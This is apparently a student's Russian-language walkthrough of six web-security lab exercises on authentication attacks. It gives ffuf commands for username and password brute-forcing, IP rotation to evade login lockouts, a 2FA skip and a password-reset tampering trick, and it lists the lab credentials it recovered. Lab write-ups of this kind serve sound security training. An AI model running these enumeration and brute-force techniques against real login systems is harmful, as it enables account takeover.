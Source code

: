 # Authentication attacks

## 1. Lab: Username enumeration via different responses

бурпом угнал запрос, потом ffuf сначала подобрал юзернейм, потом пароль

asia:klaster
```
ffuf -request req.txt -request-proto https -w users.txt -fs 3140

ffuf -request req.txt -request-proto https -w pass.txt -fc 200
```

## 2. Lab: 2FA simple bypass

Просто вместо того, чтобы вводить 2fa перейти на /my-account.

## 3. Lab: Password reset broken logic

В форме отправки сброса пароля явно указывается ник того, кому пароль скинуть. Указываем там carlos и гг

## 4. Lab: Username enumeration via subtly different responses

Долго повозившись с регексами, сделал такой запрос в ffuf

```
ffuf -request req.txt -request-proto https -w users.txt -fr 'Invalid username or password\.'
```

Далее пароль (уже попроще)

azureuser:cheese

```
ffuf -request req.txt -request-proto https -w pass.txt -c
```


## 5. Lab: Username enumeration via response timing

Так как надо ротировать айпишник, чтоб не заблочиться, сгенерил список из 101 айпишника и засунул его питчфорком в ffuf.
Теперь для каждого юзернейма будет новый айпишник. Чем не хайп.

```
ffuf -request req.txt -request-proto https \
  -w users.txt:FUZZ -w ips_101.txt:IPFUZZ \
  -mode pitchfork -c  -ft '<150'
```

На никнейме `au` таймаутнулся, так что буду считать, что он мне и нужен (в пароль я вбивал 3000 символов)

Правильно введенный пароль стандартно редиректит, нашел его таким запросом

au:12345678

```
ffuf -request req.txt -request-proto https \
  -w pass.txt:FUZZ -w ips_101.txt:IPFUZZ \
  -mode pitchfork -c -fr 'You have made too many incorrect login attempts'
```

## 6. Lab: Broken brute-force protection, IP block

Так как механизм таков, что раз в несколько раз надо опять входить - опять сделал pitchfork,
только на этот раз просто сделал каждый второй юзер пасс - wiener:peter, и в выводе искал просто 
три синих подряд

![2025-10-22-at-14-59-23.png](Nikolaev_mikhail_pr5-img/2025-10-22-at-14-59-23.png)

```
ffuf -request req.txt -request-proto https \
  -w carlos_wiener_200.txt:USERFUZZ -w pass_brute.txt:PASSFUZZ \
  -mode pitchfork -t 1 -c
```
